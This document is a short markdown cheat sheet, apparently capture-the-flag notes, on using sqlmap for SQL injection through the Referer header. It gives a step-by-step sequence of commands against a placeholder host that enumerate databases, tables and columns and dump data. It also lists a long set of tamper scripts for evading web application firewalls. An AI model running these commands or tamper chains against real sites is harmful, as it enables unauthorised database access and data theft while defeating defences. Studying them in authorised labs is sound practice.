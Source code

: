 # sqlmap

```
sqlmap -u http://xxxx/ --referer="1*" --dbs
```

```angular2html
sqlmap -u http://xxx/ --referer="1*" -D sqli --tables
```

```angular2html
sqlmap -u http://xxxx/ --referer="1*" -D sqli -T ktlwtynzsn --columns
```

```angular2html
sqlmap -u http://xxxx/ --referer="1*" -D sqli -T ktlwtynzsn -C hgyqcvsqof --dump
```


```--tamper```

[tamper](https://pingmaoer.github.io/2019/06/24/sqlmap-tamper%E8%AF%A6%E8%A7%A3/)
```angular2html
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```